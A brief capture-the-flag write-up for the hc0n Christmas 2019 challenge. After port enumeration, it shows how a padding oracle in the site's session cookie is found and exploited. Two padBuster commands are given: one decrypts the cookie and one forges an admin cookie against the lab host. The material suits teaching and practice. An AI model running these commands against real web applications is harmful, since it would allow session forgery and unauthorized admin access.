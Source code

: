 # hc0n Christmas CTF - 2019

![](../../.gitbook/assets/41d0cdc8d99a8a3de2758ccbdf637a21.jpeg)

## Enumeration

I started **enumerating the machine using my tool** [**Legion**](https://github.com/carlospolop/legion):

![](../../.gitbook/assets/image%20%2821%29.png)

There are 2 ports open: 80 \(**HTTP**\) and 22 \(**SSH**\)

In the web page you can **register new users**, and I noticed that **the length of the cookie depends on the length of the username** indicated:

![](../../.gitbook/assets/image%20%28311%29.png)

![](../../.gitbook/assets/image%20%28318%29.png)

And if you change some **byte** of the **cookie** you get this error:

![](../../.gitbook/assets/image%20%28109%29.png)

With this information and[ **reading the padding oracle vulnerability**](../../crypto/padding-oracle-priv.md) I was able to exploit it:

```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy"
```

![](../../.gitbook/assets/image%20%2853%29.png)

![](../../.gitbook/assets/image%20%28173%29.png)

**Set user admin:**

```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" -plaintext "user=admin"
```

![](../../.gitbook/assets/image%20%28271%29.png)

